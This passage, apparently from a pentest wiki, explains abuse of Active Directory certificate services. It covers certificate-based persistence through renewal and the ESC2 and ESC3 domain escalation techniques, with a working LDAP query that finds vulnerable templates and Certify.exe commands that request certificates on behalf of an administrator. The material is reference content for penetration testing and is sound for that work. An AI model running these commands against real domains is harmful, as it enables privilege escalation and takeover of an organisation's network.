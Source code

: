With access to a machine account certificate an adversary can use S4U2Self to obtain a Kerberos ticket to any service on the host (see [RBCD Abuse](/pentest/infrastructure/ad/delegation-abuse#resource-based-constrained-delegation-rbcd)) or generate a silver ticket.



### Certificate Renewal

* Certificate template **validity period** - determines how long an issued certificate can be used.
* Certificate template **renewal period** - determines a window of time *before the certificate expires* where an account can renew it from the issuing certificate authority.

An adversary can renew the compromised certificate before the validity period expires, and so that extend their access to AD without requesting additional ticket enrollments.




## Domain Escalation via Certificates



### Modifiable SAN + Any Purpose EKU (ESC2)

Condition: the vulnerable certificate template allows requesters to specify a SAN in the CSR as well as allows Any Purpose EKU (`2.5.29.37.0`).

Find template with this misconfiguration:

```
PS > Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*))))' -SearchBase 'CN=Configuration,DC=megacorp,DC=local'
```

Request a certificate specifying the `/altname` as a domain admin like in **ESC1**.



### Agent Certificate + Enroll on Behalf of Another User (ESC3)

Conditions:

1. A template allows a low-privileged user to use an enrollment agent certificate.
2. Another template allows a low privileged user to use the enrollment agent certificate to request a certificate on behalf of another user, and the template defines an EKU that allows for domain authentication.

1\. Request an enrollment agent certificate:

```
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CorpCA /template:Vuln-EnrollAgentTemplate
```

2\. Request a certificate on behalf of another user based on a template that allows domain authentication:

```
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CorpCA /template:User /onbehalfon:MEGACORP\ITAdmin /enrollcert:enrollmentAgentCert.pfx /enrollcertpw:Passw0rd!
```
